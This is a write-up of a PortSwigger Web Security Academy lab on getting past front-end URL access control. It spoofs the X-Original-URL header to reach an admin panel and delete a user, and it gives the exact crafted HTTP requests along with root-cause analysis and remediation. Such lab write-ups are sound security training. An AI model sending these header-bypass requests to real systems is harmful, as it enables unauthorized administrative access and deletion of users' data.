




# Lab 10 — URL-Based Access Control Can Be Circumvented

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Access Control
- **Lab:** URL-based access control can be circumvented
- **Difficulty:** Practitioner
- **Vulnerability:** Broken Access Control / Front-End and Back-End Access Control Discrepancy
- **Privilege Escalation:** Vertical (Unauthenticated to Administrator)
- **Status:** Solved

---

## Objective

Access the unauthenticated administrator panel by circumventing front-end URL-based access controls and use the administrative functionality to delete the user `carlos`.

---

## Initial Reconnaissance

I directly requested the administrator endpoint `/admin` using Burp Suite:

```http
GET /admin HTTP/2
Host: [LAB-DOMAIN]
```

The server blocked the request and responded with:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8

"Access denied"
```



This established that direct requests to `/admin` were intercepted and blocked by the front-end access-control layer (such as a reverse proxy or WAF).

---

## Testing X-Original-URL Header Bypass

The lab description indicated that the back-end web application framework supports the non-standard `X-Original-URL` header (commonly used by reverse proxies and frameworks such as Symfony or ASP.NET to preserve or override the original request URL).

I first tested sending `X-Original-URL` while still requesting `/admin`:

```http
GET /admin HTTP/2
Host: [LAB-DOMAIN]
X-Original-URL: /admin
```

This still returned:

```text
HTTP/2 403 Forbidden
"Access denied"
```

because the front-end reverse proxy inspected the actual request path (`/admin`) and rejected it before the request reached the back-end application.

Next, I modified the actual request path to an allowed public endpoint (`/`) while supplying the protected target path inside `X-Original-URL`:

```http
GET / HTTP/2
Host: [LAB-DOMAIN]
X-Original-URL: /admin
```

The server returned `HTTP/2 200 OK` and rendered the administrator interface.



---

## Understanding the Discrepancy

The successful request exploited an architectural discrepancy between how the front-end proxy and the back-end application interpreted the request:

```text
Incoming Request:
GET / HTTP/2
X-Original-URL: /admin
        ↓
[ Front-End Layer / Reverse Proxy ]
- Inspects visible URL path: "/"
- Rule: "/" is public / allowed
- Decision: FORWARD request
        ↓
[ Back-End Layer / Web Framework ]
- Checks for URL override headers
- Interprets "X-Original-URL: /admin" as the target route
- Routes execution to: /admin handler
        ↓
[ Administrator Panel Returned (200 OK) ]
```

Because the front-end filtering mechanism only inspected the raw URL path `/` without stripping or validating client-supplied override headers, the back-end framework re-routed the request internally to `/admin`.

---

## Accessing the Administrator Panel

With the bypass confirmed, the administrative dashboard became accessible without authentication. The panel provided user-management features, including the ability to delete user accounts.



---

## Bypassing Access Control for the Delete Function

To complete the lab objective, I needed to delete the user `carlos` via the administrative delete functionality.

A direct request to `/admin/delete?username=carlos` would be blocked by the front-end filter.

When testing `X-Original-URL` with query parameters embedded directly inside the header (`X-Original-URL: /admin/delete?username=carlos`), the back-end responded with:

```text
"Missing parameter 'username'"
```

This indicated that the back-end framework parses route paths from `X-Original-URL`, but retrieves query parameters directly from the query string of the actual request.

I adjusted the request by separating the route override and query parameters:

```http
GET /?username=carlos HTTP/2
Host: [LAB-DOMAIN]
X-Original-URL: /admin/delete
```

The server processed the deletion and responded with a redirection:

```http
HTTP/2 302 Found
Location: /admin
```

```text
Actual Request URL:  /?username=carlos  →  Front-end permits "/"
X-Original-URL:      /admin/delete      →  Back-end routes to "/admin/delete" with "username=carlos"
```

The application deleted `carlos` and redirected back to `/admin`.

---

## Lab Completion

After sending the crafted delete request, the user `carlos` was deleted from the system and the lab was solved.



---

## Vulnerability Analysis

The vulnerability is a **Broken Access Control** flaw stemming from a **Front-End and Back-End Access-Control Discrepancy** (URL-based access control bypass).

### Root Causes
1. **Perimeter-Only Access Control:** Authorization rules were implemented at the front-end reverse proxy / URL inspection layer rather than enforced programmatically at the back-end application level for each route and action.
2. **Trusting Client-Controlled Routing Headers:** The back-end application framework accepted and prioritized the `X-Original-URL` header without verifying that it originated from a trusted internal proxy.
3. **Semantic Parsing Discrepancy:** The front-end proxy determined routing based on the HTTP request line path (`/`), while the back-end application used the header value (`/admin`) to dispatch request handlers.

---

## Attack Flow

```text
[ Attacker ]
     │
     │ 1. GET /admin ──> [ Front-End Proxy ] ──> 403 Forbidden (Blocked)
     │
     │ 2. GET / (X-Original-URL: /admin)
     │         │
     │         ▼
     │    [ Front-End Proxy ]
     │    (Inspects "/": Allowed)
     │         │
     │         ▼
     │    [ Back-End Framework ]
     │    (Processes "/admin": Returns Admin Panel)
     │         │
     │         ▼
     │    Admin Panel Rendered (200 OK)
     │
     │ 3. GET /?username=carlos (X-Original-URL: /admin/delete)
     │         │
     │         ▼
     │    [ Front-End Proxy ] (Allows "/")
     │         │
     │         ▼
     │    [ Back-End Framework ] (Executes /admin/delete?username=carlos)
     │         │
     │         ▼
     │    User 'carlos' Deleted (302 Found)
     │
     ▼
[ Lab Solved ]
```

---

## Impact

An unauthenticated attacker can completely bypass front-end URL routing restrictions and access privileged administrative functionality.

In real-world environments, this class of vulnerability can result in:
- Complete administrative takeover and unauthorized user management.
- Exposure of sensitive internal APIs, configuration pages, or debug endpoints.
- Execution of privileged actions (data deletion, privilege modification, system configuration changes).
- Circumvention of Web Application Firewall (WAF) rule sets that rely exclusively on URL path matching.

---

## Remediation

### 1. Enforce Server-Side Authorization Controls
Access control must be enforced directly at the back-end application level for every privileged endpoint and controller action, rather than relying solely on front-end perimeter filtering.

```text
Incoming Request
       ↓
Identify Authenticated User / Session
       ↓
Verify Role / Permissions for Specific Resource & Action
       ├── Authorized   → Execute Action & Return Resource
       └── Unauthorized → Return 401 Unauthorized / 403 Forbidden
```

### 2. Sanitize and Strip Routing Override Headers
Reverse proxies and load balancers must strip or overwrite client-supplied headers such as `X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-Prefix`, and custom routing headers before forwarding requests to back-end services.

### 3. Disable Framework Header Overrides
If routing override headers are not strictly required for internal proxy routing, disable framework features that dynamically re-route requests based on client-controllable headers.

---

## Key Takeaways

1. **Front-End Access Control is Insufficient:** Relying purely on reverse proxy path matching or WAF rules for access control is fragile; authorization checks must live in the back-end code.
2. **Beware of Framework-Specific Headers:** Headers like `X-Original-URL` and `X-Rewrite-URL` can override internal application routing in frameworks like Symfony and ASP.NET.
3. **Parameter Handling Separation:** Query parameters might need to remain on the request path even when the path is overridden via headers.
4. **Defense in Depth:** Strip untrusted gateway headers at the perimeter and validate permissions on every endpoint server-side.
5. **Systematic Testing with Burp Repeater:** Isolating path routing from query parameter parsing helps pinpoint exact header-handling behaviors.
